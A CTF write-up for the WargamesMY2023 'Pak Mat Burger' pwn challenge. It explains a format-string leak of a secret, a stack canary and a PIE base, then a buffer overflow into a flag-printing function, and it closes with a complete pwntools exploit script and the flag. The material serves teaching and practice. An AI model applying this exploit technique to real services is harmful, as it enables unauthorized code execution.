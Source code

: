 ```yaml
---
title : "Pak Mat Burger [pwn]"
categories: WargamesMY2023
---
```


Format string attackt to leak information to perform buffer overflow on binary with stack protection + PIE.

*PS: I didn't solve this during the contest because skill issue :')*

[pakmatburger.zip]({{ site.url }}/files/wgmy2023/pakmatburger.zip){: .btn .btn--info}

# Analysis

The program reads an environment variable `SECRET_MESSAGE` and first asks the user to enter this value correctly. If we look at the Dockerfile, we see that this environment variable is populated at container creation within `start.sh`, and has 8 bytes of value (8 hex characters).

```
# Generate a new random SECRET_MESSAGE for each connection
export SECRET_MESSAGE=$(openssl rand -hex 4 2>/dev/null)
```

The comment is a big big lie that I only realised after the competition ended. The value will stay the same for each connection because the container isn't recreated every time.

Using `checksec`, we see that the program has full protection on (PIE, stack canary, NX).

{% include image.html url="/assets/images/wgmy2023/pakmatburger_program.png" description="Very short and simple program" %}

We notice that there is a format string vulnerability, and if we enter the value of the environment variable correctly, we get access to a buffer overflow vulnerability since `s` has size 10 only.

The goal here is to alter control flow into `secret_order` where the flag is printed to us.

{% include image.html url="/assets/images/wgmy2023/pakmatburger_secret_order.png" description="" %}

# Solution

We know for certain we have to leak these values using format string attack.

1. Environment variable `SECRET_MESSAGE`
2. Stack canary (to buffer overflow with stack protection)
3. Any PIE address value (to calculate PIE base)

By using GDB to break right before the vulnerable `printf` is called, we see that the pointer of `SECRET_MESSAGE` is at the top of the stack.

{% include image.html url="/assets/images/wgmy2023/pakmatburger_gdb.png" description="" %}

The stack canary can be found at `$rsp + 0x38`. We know this since it looks quite random and also because it is right above `$rbp`. A typical stack frame looks like:

```
+-----------------+
|                 |
| local variables |
|                 |
+-----------------+
|  stack canary   |
+-----------------+
|    saved RBP    |
+-----------------+
| return address  |
+-----------------+
        ...
```

For PIE address, I used the one at `$rsp + 0x58`, which is the address of `main` that was passed in as an argument to `__libc_start_main`.

To leak values on the stack, we can use the parameter field of format strings. Since 6 registers are used for parameters before the stack is used, the first value on the stack will be referred to with `%6$p` (or other formats than `p`). Since we are working with 64 bit programs, each increment of the field will go to the next 8 bytes (word size).

Something like this:

```python
def offset_to_fmt(offset, fmt):
    return f"%{6 + offset // 8}${fmt}"
```

The 3 values and their offsets with respect to `$rsp`:
1. `SECRET_MESSAGE`: 0x00
2. Stack canary: 0x38
3. `main` address: 0x58

However, the final format string to leak all at once would be more than 11 characters long. But since `SECRET_MESSAGE` stays the same, we can leak it first, then only leak the latter two values in a new connection.

After getting the address of `main`, we subtract that by its offset to get the PIE base address, which is then added by the offset of `secret_order` to get the actual address of `secret_order`.

Finally, for the buffer overflow, we will need a padding of `0x25` since the buffer `s` is at `rbp-2Dh` according to IDA.

> 0x2D = 0x25 (padding) + 0x8 (stack canary)

The final payload will be: padding + stack canary + padding for saved rbp + address of `secret_order`

# Final Script
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("pakmat_burger_patched")
context.binary = exe

def conn():
    if args.LOCAL:
        context.log_level = "debug"
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        context.log_level = "debug"
        r = remote("13.229.150.169", 34061)

    return r

def offset_to_fmt(offset, fmt):
    return f"%{6 + offset // 8}${fmt}"

def get_secret():
    r = conn()

    fmt_str = offset_to_fmt(0, "s")
    r.sendlineafter(b": ", fmt_str.encode())

    r.recvuntil(b" ")
    secret_msg = r.recvn(8)

    r.close()
    return secret_msg

def main():
    secret_msg = get_secret()

    r = conn()
    pause()

    # rsp offsets
    canary_offset = 0x0038
    main_addr_offset = 0x0058

    fmt_str = offset_to_fmt(canary_offset, "p") + offset_to_fmt(main_addr_offset, "p")
    r.sendlineafter(b": ", fmt_str.encode())

    r.recvuntil(b" ")
    canary = int(r.recvn(18).decode(), 16)
    main_addr = int(r.recvuntil(b",")[:-1], 16)
    exe.address = main_addr - exe.sym["main"]

    info("canary: " + hex(canary))
    info("main addr: " + hex(main_addr))
    info("pie base: " + hex(exe.address))

    r.sendlineafter(b": ", secret_msg)

    r.recvline()
    r.sendline(b"anything")

    secret_order = exe.sym["secret_order"]

    payload = b"A" * 0x25 + p64(canary) + b"B" * 8 + p64(secret_order + 5)
    r.sendlineafter(b": ", payload)

    print(r.recvall())

if __name__ == "__main__":
    main()
```

Flag: `wgmy{4a029bf40a28039c8492acfa866f8d96}`

